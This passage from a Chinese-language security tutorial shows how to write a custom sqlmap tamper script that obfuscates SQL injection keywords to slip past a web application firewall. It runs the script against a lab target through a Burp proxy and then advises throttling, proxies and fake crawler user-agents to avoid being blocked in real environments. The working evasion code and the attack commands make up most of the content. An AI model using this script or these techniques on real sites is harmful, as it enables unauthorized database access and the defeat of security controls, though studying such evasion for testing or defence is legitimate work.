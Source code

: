 运行结果<br />![image.png](https://cdn.nlark.com/yuque/0/2021/png/2476579/1627372390965-94e7bfb4-f66d-4232-b401-f9d6865536ef.png#clientId=ufe573d71-bd39-4&from=paste&id=u07e6c1a9&originHeight=566&originWidth=1025&originalType=binary&ratio=1&size=199477&status=done&style=none&taskId=u72f3ae58-f1c4-4f65-8a02-1f31c648adf)<br />![image.png](https://cdn.nlark.com/yuque/0/2021/png/2476579/1627372430678-1f67d0bc-0484-42da-b5d0-0c99184137d3.png#clientId=ufe573d71-bd39-4&from=paste&height=207&id=u8dadf3e2&originHeight=414&originWidth=1920&originalType=binary&ratio=1&size=369279&status=done&style=none&taskId=u703ba153-9dba-45c8-8ae3-ddd6a5227bc&width=960)
<a name="oSbOq"></a>
#### SQLmap tamper
参考资料;[https://www.cnblogs.com/mark0/p/12349551.html](https://www.cnblogs.com/mark0/p/12349551.html)

在tamper文件夹中创建rdog.py
```bash
#!/usr/bin/env python

"""
Copyright (c) 2006-2020 sqlmap developers (http://sqlmap.org/)
See the file 'LICENSE' for copying permission
"""

import re

from lib.core.data import kb
from lib.core.enums import PRIORITY

__priority__ = PRIORITY.NORMAL

def dependencies():
    pass

def tamper(payload, **kwargs):

    retVal = payload

    if payload:
        retVal = retVal.replace('UNION', 'uNiOn/*/%0a*a*/')
        retVal = retVal.replace('DATABASE()', 'dataBase/*!(*/)')
        retVal = retVal.replace('DATABASE()', 'dataBase%23a%0a')
        retVal = retVal.replace('USER()', 'usEr/*!(*/)')
        retVal = retVal.replace(' ', '/**/')
        retVal = retVal.replace(" ", '%23a%0a')
        retVal = retVal.replace('OR', '/*!14400Or*/')
        retVal = retVal.replace('AND', '/*!14400aNd*/')

    return retVal
```
![image.png](https://cdn.nlark.com/yuque/0/2021/png/2476579/1627374935616-b86b20d3-b3b1-4d47-b2d2-76c554cfce12.png#clientId=ufe573d71-bd39-4&from=paste&height=417&id=u1b37e5ae&originHeight=833&originWidth=1863&originalType=binary&ratio=1&size=201888&status=done&style=none&taskId=u54fef176-6328-4dfb-b74a-42a9f1879b7&width=931.5)<br />可以看到的是代码并没有按照我们预期执行，我们添加代理看看到底是个什么情况<br />`python sqlmap.py -u "[http://10.1.1.120/Less-2/?id=1"](http://10.1.1.120/Less-2/?id=1") --tamper=rdog.py --proxy=[http://10.1.1.2:8888](http://10.1.1.2:8888)`启动burp<br />![image.png](https://cdn.nlark.com/yuque/0/2021/png/2476579/1627375128795-9bede960-696c-4118-97ce-80532c43cc52.png#clientId=ufe573d71-bd39-4&from=paste&height=173&id=u91209ee4&originHeight=346&originWidth=1896&originalType=binary&ratio=1&size=36659&status=done&style=none&taskId=u786ea120-e58e-4039-89e1-e7bf463f314&width=948)<br />![image.png](https://cdn.nlark.com/yuque/0/2021/png/2476579/1627375175612-3500c7bc-2c69-4e4e-8bd3-e5db48176519.png#clientId=ufe573d71-bd39-4&from=paste&height=156&id=u582fbaa6&originHeight=312&originWidth=1508&originalType=binary&ratio=1&size=37723&status=done&style=none&taskId=u9c427a01-aad6-408f-a032-ef9b7830abe&width=754)<br />可以看到user-agent是`sqlmap/1.5.6.4#dev ([http://sqlmap.org)](http://sqlmap.org))`，安全软件当中是禁止使用这种脚本客户端所以就被拦截，自然插件脚本也就没办法正常执行<br />![image.png](https://cdn.nlark.com/yuque/0/2021/png/2476579/1627375768604-e010fce0-c100-43c5-b936-d39f4125f10a.png#clientId=ufe573d71-bd39-4&from=paste&height=130&id=u038148c2&originHeight=260&originWidth=1881&originalType=binary&ratio=1&size=41646&status=done&style=none&taskId=u297b4dd0-23e4-4b9d-9d16-989e4c9d8c1&width=940.5)<br />![image.png](https://cdn.nlark.com/yuque/0/2021/png/2476579/1627375791211-09d3e84a-94c9-484e-8f33-6ebb2cf88fd1.png#clientId=ufe573d71-bd39-4&from=paste&height=282&id=u09e35d7b&originHeight=563&originWidth=1832&originalType=binary&ratio=1&size=109131&status=done&style=none&taskId=u5253e91b-dc87-4eca-8b67-fb8604dad02&width=916)<br />最终找到漏洞

备注：在真实环境当中waf可能会配置流量访问也就是说你访问的速度过快会将你访问的ip拉入黑名单，对此我们使用的策略是`延时，代理，爬虫白名单`<br />搜索引擎爬虫user-agent信息：[https://blog.csdn.net/liuxl57805678/article/details/89378720](https://blog.csdn.net/liuxl57805678/article/details/89378720)

